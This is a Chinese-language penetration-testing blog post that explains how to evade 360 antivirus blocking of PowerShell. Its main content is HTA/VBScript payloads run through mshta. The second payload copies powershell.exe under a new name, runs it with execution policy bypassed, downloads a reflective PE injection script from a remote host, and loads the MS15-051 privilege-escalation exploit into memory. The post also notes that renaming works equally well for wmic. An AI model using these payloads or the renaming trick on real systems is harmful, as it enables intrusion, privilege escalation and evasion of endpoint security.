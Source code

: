 ```yaml
---
title: "绕过 360 对 PowerShell 的拦截"
date: 2019-08-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['360','powershell']
categories: ['内网渗透','bypass']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



360 不拦截 PowerShell 本身的执行, 拦截的是其它进程对 powershell.exe 的调用.

以 mshta 为例.

<!--more-->

默认执行命令的 Payload.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "powershell.exe"
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

很显然是会被拦截的.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151651.png)

利用一点小 trick.

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Dim fso
Set fso = CreateObject("Scripting.FileSystemObject")
fso.CopyFile "C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe", "C:/Windows/Temp/powershell.com", True
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "C:/Windows/Temp/powershell.com -ep bypass -nop -c ""IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.1:8000/Invoke-ReflectivePEInjection.ps1');Invoke-ReflectivePEInjection -PEUrl http://192.168.1.1:8000/ms15-051.exe -ExeArgs whoami;cmd /c pause"""
self.close
</script>
<body>
</body>
</HEAD> 
</HTML> 
```

我们把位于系统目录中的 powershell.exe 复制到 Temp 目录下并重命名为 powershell.com, 然后通过 powershell.com 执行命令.

这里使用的是远程加载 PE 文件至内存中执行.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151831.png)

并不会被拦截.

实测中将程序改为任意其它文件名再执行都能够绕过 360 的拦截.

原因很简单, 360 把文件名写死了.

wmic 同理.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806151929.png)

修改后.

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20190806152108.png)
